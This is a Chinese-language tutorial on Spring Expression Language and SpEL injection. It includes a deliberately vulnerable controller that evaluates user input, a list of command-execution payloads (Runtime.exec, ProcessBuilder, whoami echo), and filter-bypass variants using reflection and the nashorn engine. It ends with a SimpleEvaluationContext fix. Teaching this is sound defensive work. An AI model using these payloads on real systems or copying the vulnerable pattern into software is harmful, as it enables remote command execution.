








## 介绍

Spring Expression Language（简称SpEL）是一种强大的表达式语言，支持在运行时查询和操作对象图。语言语法类似于Unified EL，但提供了额外的功能，特别是方法调用和基本的字符串模板功能。同时因为SpEL是以API接口的形式创建的，所以允许将其集成到其他应用程序和框架中。

SpEL的诞生是为了给 Spring 社区提供一种能够与 Spring 生态系统所有产品无缝对接，能提供一站式支持的表达式语言。 Spring框架的核心功能之一就是通过依赖注入的方式来管理Bean之间的依赖关系，而SpEl可以方便快捷的对ApplicationContext中的Bean进行属性的装配和提取。


## 基础使用

先新建一个Spring项目

### pom.xml

```xml
<!-- https://mvnrepository.com/artifact/org.springframework/spring-expression -->
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-expression</artifactId>
    <version>5.2.12.RELEASE</version>
</dependency>

```

### 基础例子

- 一个简单的Controller
- `message`为get传入的参数
- `ExpressionParser`接口负责解析表达式字符串
- `getValue`方法执行表达式并返回结果
- 默认容器是spring本身的容器：`ApplicationContext`

```java
package com.spel.test.demo;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class HelloController {
    @GetMapping("/test")
    public String catUser(String message) {
        ExpressionParser parser = new SpelExpressionParser();
        Expression expression = parser.parseExpression(message);
        return expression.getValue().toString();
    }
}


```

访问 `http://127.0.0.1:8080/test?message=T(java.lang.Math).random()*100`，可见成功得到一个随机数，说明表达式被执行了



访问 http://127.0.0.1:8080/test?message=new%20java.lang.ProcessBuilder(%22whoami%22).start() 可以直接执行系统命令



### SpEL语法

SpEL使用 `#{...}` 作为定界符，所有在大括号中的字符都将被认为是 SpEL表达式，我们可以在其中使用运算符，变量以及引用bean，属性和方法如：

- 引用其他对象:`#{car}`

- 引用其他对象的属性：`#{car.brand}`

- 调用其它方法 , 还可以链式操作：`#{car.toString()}`

其中属性名称引用还可以用`$`符号 如：`${someProperty}`

除此以外在SpEL中，使用`T()`运算符会调用类作用域的方法和常量。例如，在SpEL中使用Java的`Math`类，我们可以像下面的示例这样使用`T()`运算符：
```java
#{T(java.lang.Math)}
```

> 演示因为是本地环境，且是将输入的参数直接当成SpEL表达式去执行的，所以没有输入`#{}`，但是如果用@Value去获取值执行就需要了
>
> ```java
> @Value("#{ T(java.lang.Math).random() * 100.0 }")
> private int rand;
> ```

### SpEL表达式分类

#### 基本表达式

字面量表达式、关系，逻辑与算数运算表达式、字符串链接及截取表达式、三目运算、正则表达式以及括号优先级表达式；

#### 类相关表达式

类类型表达式、类实例化、instanceof 表达式、变量定义及引用、赋值表达式、自定义函数、对象属性存取及安全导航表达式、对象方法调用、Bean 引用；

#### 集合相关表达式

内联 List、内联数组、集合、字典访问、列表、字典；

#### 其他表达式

模版表达式

### SpEL类相关表达式‼️

#### 类类型表达式

**使用"T(Type)"来表示 java.lang.Class 实例，"Type"必须是类全限定名，"`java.lang`"包除外，即该包下的类可以不指定包名；使用类类型表达式还可以进行访问类静态方法及类静态字段。**

举例

```java
// java.lang 包类访问
T(String)
```



```java
// 其他包类访问
T(java.lang.Runtime).getRuntime().exec('open -na Calculator')
```



```java
//类静态字段访问
T(Integer).MAX_VALUE
```



```java
//类静态方法调用
T(Integer).parseInt('1')
```

#### 类实例化

类实例化同样使用 java 关键字「new」，类名必须是全限定名，但 java.lang 包内的类型除外，如 String、Integer。

```java
new java.util.Date()
```


#### instanceof 表达式

SpEL 支持 instanceof 运算符，跟 Java 内使用同义

```java
"test" instanceof T(String)
```




## 常用payload

```java
${12*12}
T(java.lang.Runtime).getRuntime().exec("open -na Calculator")
T(Thread).sleep(10000)
#this.getClass().forName('java.lang.Runtime').getRuntime().exec('open -na Calculator')
new java.lang.ProcessBuilder('open -na Calculator').start()
```

回显

引入了`org.apache.commons.io`这个包的话，可以输出回显

```java
T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream())
```



## 绕过方式

如果采用关键词过滤，可以采用反射的方式来绕过

```java
T(String).class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec("open%20-na%20Calculator")
    
// + 一定要用url编码，不然浏览器解析会有问题
T(String).class.forName("java.lang.Ru"%2b"ntime").getMethod("getRu"%2b"ntime").invoke(null).exec("open%20-na%20Calculator")
    
T(String).getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null).getClass().getMethod("exec",T(String)).invoke(T(java.lang.Runtime).getRuntime(),"open%20-na%20Calculator")
```

使用`ScriptEngineManager`构造

```java
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("java.lang.Runtime.getRuntime().exec('open -na Calculator')")

T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("java.lang.Runt"%2b"ime.getRu"%2b"ntime().e"%2b"xec('open -na Calculator')")
```

如果不能使用双引号，那么可以采用生成任意字符+`concat`函数的形式进行绕过

```
T(java.lang.Character).toString(97).concat(T(java.lang.Character).toString(98))
```


## 防御

因为SpEL表达式注入漏洞导致攻击者可以通过表达式执行精心构造的任意代码，导致命令执行。为了防御该类漏洞，Spring官方推出了`SimpleEvaluationContext`作为安全类来防御该类漏洞。

官方文档：https://docs.spring.io/spring/docs/5.0.6.RELEASE/javadoc-api/org/springframework/expression/spel/support/SimpleEvaluationContext.html

`SimpleEvaluationContext` 旨在仅支持 SpEL 语言语法的一个子集。它不包括 Java 类型引用，构造函数和 bean 引用；所以最直接的修复方式是使用 `SimpleEvaluationContext` 替换 `StandardEvaluationContext`。

基础举例

```java
ExpressionParser parser = new SpelExpressionParser();
Expression expression = parser.parseExpression(message);
EvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().withRootObject(message).build();
return expression.getValue(context).toString();
```



## 参考

- [Java代码审计之SpEL表达式注入](https://www.freebuf.com/vuls/197008.html)
- [由浅入深SpEL表达式注入漏洞](http://rui0.cn/archives/1043)

